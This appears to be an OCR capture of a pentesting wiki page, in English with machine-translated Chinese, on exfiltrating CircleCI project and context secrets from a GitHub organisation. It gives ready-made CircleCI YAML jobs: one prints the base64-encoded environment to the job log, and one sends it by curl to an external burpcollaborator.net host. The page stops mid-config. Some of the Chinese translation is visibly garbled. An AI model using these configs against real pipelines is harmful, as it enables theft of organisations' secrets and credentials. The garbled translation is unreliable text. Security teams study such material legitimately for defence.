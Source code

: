 ### Exfiltrate Project secrets

{% hint style="warning" %}

{％提示样式=“警告”％}
In order to **exfiltrate ALL** the project and context **SECRETS** you **just** need to have **WRITE** access to **just 1 repo** in the whole github org (_and your account must have access to the contexts but by default everyone can access every context_).

为了**全部**所有**项目和上下文**秘密**您**仅**需要**写** **仅在整个github org中访问**仅1个repo **（_您的帐户） 必须可以访问上下文，但是默认情况下每个人都可以访问每个上下文_）。
{% endhint %}

{% hint style="danger" %}
The "**Import Variables**" functionality allows to **import variables from other projects** to this one. Therefore, an attacker could **import all the project variables from all the repos** and then **exfiltrate all of them together**.

“ **导入变量**”功能允许**从其他项目的导入变量**到该项目。 因此，攻击者可以**从所有存储库中导入所有项目变量**，然后**将所有项目变量一起渗透在一起**。
{% endhint %}

All the project secrets always are set in the env of the jobs, so just calling env and obfuscating it in base64 will exfiltrate the secrets in the **workflows web log console**:

所有项目的秘密始终都设置在工作的Env中，因此仅在Base64中调用Env并将其混为一谈，就会在**工作流中的Web Log Console **中删除秘密：

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "env | base64"

workflows:
  exfil-env-workflow:
    jobs:
      - exfil-env
```

If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **create a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:

如果您**无法访问Web控制台**，但是您可以访问repo **，并且您知道使用了CircleCi，则可以**创建一个工作流**，** the every ** the every offer ** 分钟**，那个**将秘密剥夺了外部地址**：

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
```